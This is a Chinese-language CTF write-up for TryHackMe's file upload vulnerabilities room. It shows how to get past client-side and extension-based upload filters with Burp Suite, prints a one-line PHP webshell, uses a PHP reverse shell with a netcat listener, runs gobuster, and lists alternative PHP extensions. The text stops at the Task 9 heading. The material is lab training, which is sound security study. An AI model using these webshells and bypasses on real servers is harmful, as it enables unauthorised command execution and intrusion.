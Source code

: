```yaml
---
author: lemonxym
toc: true
toc_label: "目录"
toc_icon: "cog"
---
```

# 文件上传绕过（client-side）

https://tryhackme.com/room/uploadvulns的Task 7

已知http://java.uploadvulns.thm（PS：需要在/etc/hosts中设置IP和域名对应）只存在client-side的文件上传过滤，目标是得到该服务器/var/www/下的flag



打开网页如下：

![image]({{ site.url }}{{ site.baseurl }}/assets/images/2022-05-16-file-upload-wp/image-20220516095801615.png)



因为是client-side的过滤故查看源代码，发现非png类型文件不可上传

![image-20220516100025617]({{ site.url }}{{ site.baseurl }}/assets/images/2022-05-16-file-upload-wp/image-20220516100025617.png)



整个流程是用户请求网页，然后服务器返回网页信息（html等等信息），其中包含了上面用于过滤文件类型的JavaScript代码。然后点击“select file”打开文件后，过滤代码就在用户端运行。点击上传，文件就传输到服务器。

![image-20220516102207195]({{ site.url }}{{ site.baseurl }}/assets/images/2022-05-16-file-upload-wp/image-20220516102207195.png)

所以我们可以用两种方法来打破client-side过滤的机制：

1. 在服务器返回网页信息的时候截胡，把过滤代码删掉
2. 在过滤代码执行的时候处理，上传一个png后缀文件，但在执行结果返回前把文件类型改回来

可以用webshell或者reverse shell：

1. webshell我用的是以下代码

   ```
   <?php
   	echo system($_GET["cmd"]);
   ?>
   ```

2. reverse shell用的是kali的/usr/share/webshells/php/php-reverse-shell.php（记得改文件里的$IP为攻击机的IP）

以上的2X2种方法可以随便组合

## 方法一：删过滤代码+webshell

打开网页代理，打开burpsuite，选择response to this request来显示服务器返回的包（默认情况下不显示）。

![image-20220516105740620]({{ site.url }}{{ site.baseurl }}/assets/images/2022-05-16-file-upload-wp/image-20220516105740620.png)

点击forward，收到返回的包，删除过滤的js代码

![image-20220516105947436]({{ site.url }}{{ site.baseurl }}/assets/images/2022-05-16-file-upload-wp/image-20220516105947436.png)

点击forward后，正常上传文件即可

问题是不知道webshell.php在哪，所以用gobuster扫一下文件目录：

```
gobuster dir -u http://java.uploadvulns.thm/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```

找到一个可疑的文件夹/images，访问这个文件夹：http://java.uploadvulns.thm/images果然在里面，所以只要访问

```
http://java.uploadvulns.thm/images/webshell.php?cmd=cat /var/www/flag.txt
```



## 方法二：修改文件类型+reverse shell

把php-reverse-shell.php改成shell.png(改成shell只是懒得打，但是后缀一定要改)

![image-20220516110903950]({{ site.url }}{{ site.baseurl }}/assets/images/2022-05-16-file-upload-wp/image-20220516110903950.png)

点击“upload”，修改文件类型，点击forward成功上传

![image-20220516111059415]({{ site.url }}{{ site.baseurl }}/assets/images/2022-05-16-file-upload-wp/image-20220516111059415.png)

也是一样的用gobuster找到文件上传到何处

攻击机这边打开netcat的listener，然后访问

```
nc -lvnp 1234(端口号)
```

获得reverse shell，得到flag

![image-20220516111412502]({{ site.url }}{{ site.baseurl }}/assets/images/2022-05-16-file-upload-wp/image-20220516111412502.png)



# 文件上传绕过（server-side）-文件拓展名过滤

https://tryhackme.com/room/uploadvulns的Task 8

后缀改成php5就可以上传了，以下是一些很少使用但服务器或许可以识别的Php后缀名，一个个试出来的：.php3, .php4, .php5, .php7, .phps, .php-s,  .pht .phar。

![image-20220516152831391]({{ site.url }}{{ site.baseurl }}/assets/images/2022-05-16-file-upload-wp/image-20220516152831391.png)

# 文件上传绕过（server-side）-magic numbers过滤

https://tryhackme.com/room/uploadvulns的Task 9

